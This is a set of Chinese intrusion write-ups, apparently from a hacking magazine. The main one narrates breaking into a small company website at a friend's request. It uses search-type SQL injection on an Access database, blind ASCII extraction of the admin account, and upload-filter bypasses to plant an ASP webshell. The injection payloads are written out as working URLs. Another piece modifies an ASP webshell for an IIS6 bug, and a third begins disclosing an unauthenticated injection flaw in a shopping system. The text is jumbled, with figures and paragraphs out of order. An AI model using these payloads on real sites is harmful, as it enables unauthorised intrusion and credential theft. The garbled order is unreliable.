

输入密码进去，却傻了眼，页面显示无法找到该页，我开始是怀疑自己密码输错了，又输了二遍，还是错误。怎么会这样呢？突然想起在使用IIS6.0这个漏洞的时候有些ASP木马是要修改的，具体怎么修改却忘记了。我找到了那篇文章，原因在于这个ASP木马里有这句代码：

```
asp
URL=Request.ServerVariables("URL")
ServerIP=Request.ServerVariables("LOCAL_ADDR")
Action=Request("Action")
...
```

这里显示接收到的参数是通过URL来传递的，也就是说当我们登陆的时候，服务器会解析b.asp，所以无法验证的情况便出现了。解决的办法也很简单，只要把上面的第一句代码直接修改为PATH_INFO即可。

进入后台后发现有上传的地方，但是只能上传图片，没有数据库压缩备份选项，所以也不能用通常的方法来获得webshell，但是我们不是可以用getwebshell写出asp木马嘛，大不了再把前面的工作再做一次就好了。

入侵到这里就结束了，说实话这个服务器安全还是做得不错的，真实的人侵历程比文章中写到的内容还要多一些，只是其他的办法我都未能获得网站的权限，所以也就不写了，感觉入侵是一种综合知识的运用，大家平时应该多积累一些知识和经验，以便给今后的人侵提供便利。

# 记一次“乌巢”入侵检测

某日在家闲着无事正好一个朋友给我找了一个企业站点，说想拿下这个站，但是没有思路，让我帮忙看一下能不能拿下。反正没事做，于是我就帮忙看了看。

打开网站，先看一下大致情况（如图1）。



图1



图4

嗯嗯，不光报错了，而且把语句也给爆出来了。

该网站通过Jet连接引擎，用的是Access数据库。各位看到这里，应该可以猜到我是用搜索型注入来拿下这个站的，但是其实没有那么简单。为了注入起来方便，这时我们可以尝试抓包来构造Url，这里我喜欢在页面搜索的地方来单击鼠标右键，查看源文件，在源文件中搜索“action”来如图6所示的位置。



图2

是一个小型企业站点，一般情况下这样的站点都是用asp语言编写的。闲话不说，下面开始我们的检测，首先先找注入点，把网址复制到啊D中，看看能不能找到注入点出来，稍等一会，啊D检测完成，没有找到任何的注入点（如图2）。



图5

```
<form action="product.asp" ...>
<input name="keyword" type="text" ...>
<input type="radio" name="..." value="product" checked action="Product.asp"> 产品
<input type="radio" name="..." value="news.asp"> 新闻
</form>
```

图6

其他工具也就不测试了，要是那么轻松可以注入，朋友也不会找到我。接下来，我在IE中随便打开一个带参数的链接 `http://www.XXXXXX.com/newsite/productinfo.asp?product_id=86`，习惯性地在参数后面随便加了几个字符，回车，返回的结果提示“错误操作”（如图3），看来这个链接的参数只允许是数字，那么注入可能就不存在了。继续在网站上面溜达，突然在首页发现一处搜索框（如图4）。



图7



图3

在搜索框中输入“1”，点击搜索，返回结果（如图5），是有正常的搜索结果的，继续输入“1'”，返回如下结果，程序提示：

> Microsoft JET Database Engine 错误 '80040e14'

语法错误 在查询表达式 '(venshop_productname like '%1%' or venshop_productsn like '%1%')' 中。

/newsite/Product.asp，行 98

这就是我们提交搜索参数的表单了，我们根据它来构造Url：`http://www.XXXXXX.com/newsite/Product.asp?keyword=1`，接在把地址复制到浏览器中回车访问，返回的结果和我们通过搜索框提交参数“1”得到的结果是一样的，OK，Url构造成功，下面正式开始我们的注入。大家知道，搜索型注入可以说是字符型注入的一种特殊形式，由于要考虑到符号闭合的问题，我们可以通过语句 `1%' and 1=1 and '%'='` 和 `1%' and 1=2 and '%'='`（注意，这里的开头数字1不是固定的，是你自己搜索的参数）来判断存不存在注入点，我们在构造的url后面输入第一句测试语句即可：

`http://www.XXXXXX.com/newsite/Product.asp?keyword=1%' and 1=1 and '%'='`，结果如图7所示。

提示的是“没有产品”，不对啊，应该是返回正常才对啊，继续提交第二句测试语句，还是返回“没有产品”，很奇怪。为了找到原因，我们直接提交 `http://www.XXXXXX.com/newsite/Product.asp?keyword=1%'`，让他报错（如图8），这里可以把语句看得很清楚了：

```
Microsoft JET Database Engine 错误 '80040e14'

语法错误 在查询表达式 '(venshop_productname like '%1%' or venshop_productsn like '%1%')' 中。

/newsite/Product.asp，行 98
```

确定它是否存在，以及它的名称的拼写是否正确。

```
/newsite/Product.asp，行 98
```

继续提交常用的几个表名如：admin、manage等来进行测试，发现都是不存在的。入侵再次碰壁，Access 的数据库不像 SQLserver 的注入手段那么灵活。如果猜不出密码，这个注入点就没有什么价值了。难道就这样放弃？不，我们继续看，测试了一些常见目录，我们来到管理后台：http://www.XXXXXXX.com/newsite/admin/login.asp。如图10所示，用万能密码和常见的弱口令测试，均不能正常登陆。习惯性的，右键查看下源文件，搜索“admin”，来到图11这样一处代码。



图8



图11



图9

我们提交的“%'”并没有和 SQL 字符串语句中的“%”闭合，而是被过滤了，关键查询语句变成了“%1%”，当然就不能返回正常的查询结果了。到这里我突然想到了一个方法：把 % 用 url 编码处理下，打开小篆字符转换器，在“要转的”框里输入 %，点击“给我转”，得到 % 的 url 编码是 %25，接着把测试语句中的 % 用 %25 来替换掉，继续提交语句。

```
http://www.XXXXXXX.com/newsite/Product.asp?keyword=1%25' and 1=1 and '%25'='
```

结果返回正常（如图9）。接着再提交 http://www.XXXXXXX.com/newsite/Product.asp?keyword=1%25' and 1=2 and '%25'='，返回“没有产品”，第一次和第二次返回结果不同，证明网站存在注入点。接下来就是猜账号和密码了，由于测试不能 Union 联合查询，那么我们只能用 ASCII 逐字解码法了。

首先，我们猜测下管理员表段，提交语句：

```
http://www.XXXXXXX.com/newsite/Product.asp?keyword=1%25' and exists (select * from 常用表名) and '%25'='
```

```
Microsoft JET Database Engine 错误 '80040e37'

Microsoft Jet 数据库引擎找不到输入表或查询 '表名'。
```

大家发现了什么？没错，是“venshop_adminname”和“venshop_adminpass”。如果没错的话，这应该就是管理员表段中的记录管理员账号和密码的字段了。可以看出他是自定义了表名前缀，那么我们就可以大胆猜测管理员表段应该也有“venshop_”这样的表名前缀了。接着提交语句：

`http://www.XXXXXXX.com/newsite/Product.asp?keyword=1%25' and exists (select * from venshop_admin) and '%25'='`

根据回执判断得到管理员的表名就是 venshop_admin。接下来，用语句

`and exists (select venshop_adminname from venshop_admin)`

来判断出 venshop_admin 表下是否存在 venshop_adminname 和 venshop_adminpass 这两个字段。继续提交 `and (select top 1 len(列名) from 表名)>N` 这样的语句，来判断字段的长度。

例如，我们提交：`http://www.XXXXXXX.com/newsite/Product.asp?keyword=1%25' and (select top 1 len(venshop_adminname) from venshop_admin)>4 and '%25'='`。如果返回正常，就说明管理员表段中第一行管理员账号字段长度是大于 4 的。



图10

and `(select top 1 len(venshop_adminname) from venshop_admin)<7 and '%25='`，来判断该字段长度是否不小于7。使用上述语句来判断字段的范围，从而不断缩小字段的长度最终锁定具体长度。当我们得到字段长度以后，我们就要猜字段中每一位具体的数值了！

这时要用到语句 `and (select top 1 asc(mid(venshop_adminname,1,1)) from venshop_admin)>n`，该条语句就是判断第一列 `venshop_adminname` 字段中第一个数值是否大于N（N是ASCII码，N可以通过n由小写字符转换出来），同理，我们要判断第二个数值就可以通过语句 `and (select top 1 asc(mid(venshop_adminname,2,1)) from venshop_admin)>n`，依次类推，我们可以一个一个的猜出具体的管理员账号和密码。



图14


图15


图12

成功得到账号密码后直奔后台，界面如图12所示，一眼看到了上传，选择了一个Asp小马，点击上传，立刻弹出框提示，如图13。这里直接就弹出提示，说明很有可能是本地验证上传的。为了查看方便，用opera浏览器登录后台，在上传处查看源文件，发现这里的上传页面是用一个框架来显示的，用opera浏览器，我们可以在新标签中打开这个框架，如图14，打开后页面如图15所示。


图13

难道就这样上传成功了？非也，前面测试时正常上传jpg文件会返回上传后文件的文件名，但这里却没有返回，说明很有可能没有上传成功，即使成功了，没有文件名我们也是找不到Webshell的。看来这个上传在服务器端应该也是有验证的。那换种思路，正常上传的时候jpg文件会保存在根目录的pic文件夹下，正好那串url中有这样一个参数：`&path=pic`，那我们把它更改它为：`&path=pic.asp`，那么文件会不会就被上传到pic.asp文件夹下呢？经过测试，这样也是行不通的，没有建立文件夹的权限，返回（如图16）。


图16

细心的朋友们，可以发现这里的地址栏url中有这样的一串：`uploadfile.asp?exts=jpg|jpeg|png|gif|bmp|swf&path=pic`，这里难道可以通过直接修改参数来达到上传asp文件的目的？我们试试看修改参数，把jpg改成asp，回车访问，然后选择一个asp文件，点击上传，结果不出所料成功的绕过了弹框限制！


图17

试了半天上传是没有什么希望了，入侵再次受阻，后台所有栏目都看了一遍，基本也没有能利用的地方了。后来求助于论坛，一个牛人轻松拿到shell。原来，后台是存在数据库备份页面的！我们直接在后台，看到任何数据库备份的页面或者链接等信息，但是我们只要登陆后台后，直接访问地址 `http://www.XXXXXX.com/newsite/admin/manage_backup.asp`，就可以来到图17所示页面。

# 又见网趣网上购物系统注入漏洞

txcbg

网趣网上购物系统又出注入漏洞了。为什么说又呢，因为这不是网趣网上购物系统第一次出现注入漏洞，就在大约1个月前被人爆出根目录下的文件price.asp存在注入漏洞，现在又被人发现了新的注入漏洞。

查询，注入漏洞产生，又由于editorderform.asp虽然在管理目录admin下，却没有做任何权限验证，导致任何人都可以访问这个文件。

## 一、漏洞简单分析

